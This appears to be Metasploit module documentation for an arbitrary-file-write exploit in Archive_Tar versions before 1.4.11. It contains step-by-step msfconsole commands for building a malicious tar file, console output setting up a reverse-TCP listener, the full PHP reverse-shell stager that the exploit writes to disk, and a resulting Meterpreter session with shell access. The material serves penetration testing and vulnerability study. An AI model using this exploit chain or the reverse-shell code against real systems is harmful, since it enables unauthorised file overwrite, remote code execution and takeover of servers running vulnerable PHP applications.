 ## Vulnerable Application

[Archive_Tar](https://github.com/pear/Archive_Tar/) is a plugin for the
[PEAR PHP development framework](https://pear.php.net/) that allows developers
the ability to create, delete, modify and extract files from TAR archives.

This module takes advantages of Archive_Tar < 1.4.11's lack of validation of file
stream wrappers contained within filenames to write an arbitrary file containing
user controlled content to an arbitrary file on disk. Note that the file will be
written to disk with the permissions of the user that PHP is running as, so it may
not be possible to overwrite some files if the PHP user is not appropriately
privileged.


## Verification Steps

1. **Install** the PEAR framework using the instructions at https://pear.php.net/manual/en/installation.getting.php
1. **Verify** the PEAR framework is working using the instructions at https://pear.php.net/manual/en/installation.checking.php
1. **Download** the PoC files from the original advisory at https://github.com/pear/Archive_Tar/files/5551831/exploit.zip.
1. **Unzip** the files to a sample directory
1. Open up `msfconsole`.
1. `use exploit/multi/fileformat/archive_tar_arb_file_write`
1. `set FILENAME exploit.tar`
1. `set FILEPATH *path to the file to overwrite on the target system*`
1. `run`
1. **Copy** the generated `exploit.tar` file to the `file_proc` directory within the directory you expanded `exploit.zip` to from earlier.
1. **Run** `php vulnerable.php`
1. **Verify** that the file was created in the location you specified in the `FILEPATH` parameter,
with the contents of the PHP shell that you specified for the `PAYLOAD` parameter.


## Options

### FILENAME
The name of the TAR file to be created locally

### FILEPATH
The full path to the file on the target system that should be
created or overwritten with the code for a PHP shell.


## Scenarios

### Archive_Tar v1.4.10

First create the malicious TAR file and set up the listener:

```
msf6 > use exploit/multi/fileformat/archive_tar_arb_file_write
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > show options

Module options (exploit/multi/fileformat/archive_tar_arb_file_write):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The file name.
   FILEPATH  /tmp/msf.php     yes       The full path to the file to write on the target.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.86.152    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Archive_Tar < 1.4.11


msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > set FILENAME test.tar
FILENAME => test.tar
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > set FILEPATH /tmp/test.php
FILEPATH => /tmp/test.php
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > run

[*] Writing file: test.tar (3072 bytes) ...
[+] test.tar stored at /home/test/.msf4/local/test.tar
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.30.86.152
LHOST => 172.30.86.152
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
```

Then copy the file over and into the expanded copy of https://github.com/pear/Archive_Tar/files/5551831/exploit.zip
and run vulnerable.php to simulate an application opening a tar file and extracting its contents.

```
 ~/drupal/exploit/file_poc #  ls
create_tar.py  exploit.tar  input_file.txt  php_errors.log  steps.sh  vulnerable.php
 ~/drupal/exploit/file_poc #  rm -rf exploit.tar
 ~/drupal/exploit/file_poc #  cp /home/test/.msf4/local/test.tar exploit.tar
 ~/drupal/exploit/file_poc # ls -alh /tmp/test.php
ls: cannot access '/tmp/test.php': No such file or directory
 ~/drupal/exploit/file_poc # php vulnerable.php
 ~/drupal/exploit/file_poc # cat vulnerable.php
<?php

  require_once('../Archive/Tar.php');

  $archive = new Archive_Tar('exploit.tar');
  $archive->extract();
 ~/drupal/exploit/file_poc  ls -alh /tmp/test.php
-rw-rw-r-- 1 test test 1.1K Jan 15 17:54 /tmp/test.php
 ~/drupal/exploit/file_poc # cat /tmp/test.php
/*<?php /**/ error_reporting(0); $ip = '172.30.86.152'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

Now we just have to run the PHP file to simulate a user browsing to the web page:

```
php /tmp/test.php
```

And the shell will be obtained:

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
[*] Sending stage (39282 bytes) to 172.30.86.152
[*] Meterpreter session 2 opened (172.30.86.152:4444 -> 172.30.86.152:56754) at 2021-01-15 18:02:55 -0600

meterpreter > getuid
Server username: test (1000)
meterpreter > uname -a
[-] Unknown command: uname.
meterpreter > shell
Process 29349 created.
Channel 0 created.
uname -a
Linux test-Virtual-Machine 5.8.0-36-generic #40~20.04.1-Ubuntu SMP Wed Jan 6 10:15:55 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
